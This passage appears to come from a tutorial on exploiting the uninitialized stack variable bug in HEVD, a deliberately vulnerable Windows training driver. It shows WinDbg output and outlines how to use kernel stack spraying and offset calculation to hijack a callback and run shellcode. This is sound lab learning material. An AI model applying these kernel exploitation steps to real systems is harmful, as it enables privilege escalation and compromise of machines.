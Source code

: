 ```cpp
    return 0;
}
```

Everything works fine, we see

```js
[+] UserValue: 0xBAD0B0B0
[+] UninitializedStackVariable Address: 0xA98CB9A8
[+] UninitializedStackVariable.Value: 0xBAD0B0B0
[+] UninitializedStackVariable.Callback: 0xA7F57EE8
[+] Triggering Uninitialized Stack Variable Vulnerability
[+] Uninitialized Stack Variable Object Callback
```

Changed value to check

```js
[+] UserValue: 0xDDCCBBAA
[+] UninitializedStackVariable Address: 0x821C99A8
[+] UninitializedStackVariable.Value: 0x92607BE5
[+] UninitializedStackVariable.Callback: 0x85413D10
[+] Triggering Uninitialized Stack Variable Vulnerability

kd> dps esp
821c9984  a7f58abc HEVD! ?? ::NNGAKEGL::`string'
821c9988  a7f58af8 HEVD! ?? ::NNGAKEGL::`string'
821c998c  85413d10
821c9990  a7f58b28 HEVD! ?? ::NNGAKEGL::`string'
821c9994  92607be5 dxgkrnl!DpQueueDpc+0x72
821c9998  25e9f97e
821c999c  86f63c98
821c99a0  86f63d08
821c99a4  a7f58ca4 HEVD! ?? ::NNGAKEGL::`string'

821c99a8  92607be5 dxgkrnl!DpQueueDpc+0x72
821c99ac  85413d10

```

This will trigger callback in vulnurable function. Now we somehow need to control that callback function address to call our shellcode. 

To do this, the steps we need to follow:

* Find the kernel stack init address
* Find the offset of our callback from this init address
* Spray the Kernel Stack with User controlled input from the user mode. (Good read about it can be found [here](https://j00ru.vexillium.org/2011/05/windows-kernel-stack-spraying-techniques/) by j00ru).

To find the kernel stack init address, run the !thread command, and then
`offset = stack init address - callback function address`

```js
kd> !thread
THREAD 87265788  Cid 05a8.084c  Teb: 7ffdf000 Win32Thread: 00000000 RUNNING on processor 0
IRP List:
    86f63c98: (0006,0094) Flags: 00060000  Mdl: 00000000
Not impersonating
DeviceMap                 8f592d88
Owning Process            85036d28       Image:         Project1.exe
Attached Process          N/A            Image:         N/A
Wait Start TickCount      85644          Ticks: 18 (0:00:00:00.180)
Context Switch Count      44             IdealProcessor: 0             
UserTime                  00:00:00.000
KernelTime                00:00:00.300
Win32 Start Address 0x00e9134f
```